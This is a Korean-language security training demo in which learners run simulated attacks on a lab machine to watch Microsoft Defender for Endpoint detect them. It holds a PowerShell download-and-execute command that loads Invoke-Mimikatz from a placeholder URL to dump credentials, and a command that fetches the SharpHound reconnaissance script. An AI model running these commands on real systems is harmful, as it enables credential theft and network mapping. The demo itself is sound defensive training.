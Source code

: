 # 모듈 2 데모 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

**참고** 이 데모의 성공적인 완료는 [필수 구성 요소 문서](00-prerequisites.md)에 있는 모든 단계를 완료하는 것에 달려 있습니다.

## 시뮬레이션된 공격

이 작업에서는 두 가지 시뮬레이션 공격을 실행하여 엔드포인트용 Microsoft Defender의 기능을 살펴봅니다.

1. 브라우저의 Microsoft Defender XDR 포털에 아직 있지 않은 경우 테넌트의 관리자로 로그인된 Microsoft Defender XDR(https://security.microsoft.com))로 이동합니다.

*WIN1*에서 *PowerShell*을 사용하여 *시뮬레이션된* 공격을 실행하여 엔드포인트용 Microsoft Defender의 기능을 살펴보겠습니다.

`Attack 1: Mimikatz - Credential Dumping`

1. *WIN1* 컴퓨터에서 검색 창에 **명령**을 입력하고 **관리자 권한으로 실행**을 선택합니다.

1. **관리자: 명령 프롬프트** 창을 열고 **Enter** 키를 눌러 실행합니다.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. *액세스가 거부되었습니다*라는 메시지와 *발견된 위협*을 표시하는 `Microsoft Defender Antivirus, Windows Security Virus and threats protection`의 팝업 메시지가 표시됩니다.

1. **관리자: 명령 프롬프트** 창을 **exit**를 입력하고 **Enter** 키를 눌러 종료합니다.

`Attack 2: Bloodhound - Collection`

1. *WIN1* 컴퓨터에서 검색 창에 **PowerShell**을 입력하고 **Windows PowerShell**을 선택한 다음 **관리자 권한으로 실행**을 선택합니다.

1. **관리자: Windows PowerShell** 창에 다음 명령을 복사하여 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**참고:** 한 번에 하나씩 명령을 복사하여 붙여넣고 실행하는 것이 좋습니다. *메모장*을 열고 명령을 임시 파일에 복사하면 됩니다. 첫 번째 명령은 *Atomic Red Team* 폴더가 있는 동일한 폴더에 *ExternalPayloads*라는 폴더를 만듭니다. 두 번째 명령은 *BloodHound* GitHub 리포지토리에서 *SharpHound.ps1* 파일을 다운로드하여 *ExternalPayloads* 폴더에 저장합니다.

1. *발견된 위협*을 표시하는 `Windows Security Virus and threats protection`의 팝업 메시지가 표시되어야 합니다.

1. **관리자: Windows PowerShell** 창에 다음 명령을 복사하여 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 출력이 *True*이면 Microsoft Defender 바이러스 백신이 바이러스 백신 페이로드 파일을 제거하지 않은 것입니다. 출력이 *False*이면 바이러스 백신 페이로드 파일이 Microsoft Defender 바이러스 백신에 의해 제거된 것입니다. 출력이 *False*가 될 때까지 위쪽 화살표 키를 사용하여 명령을 반복합니다.

## 이 데모를 완료했습니다.
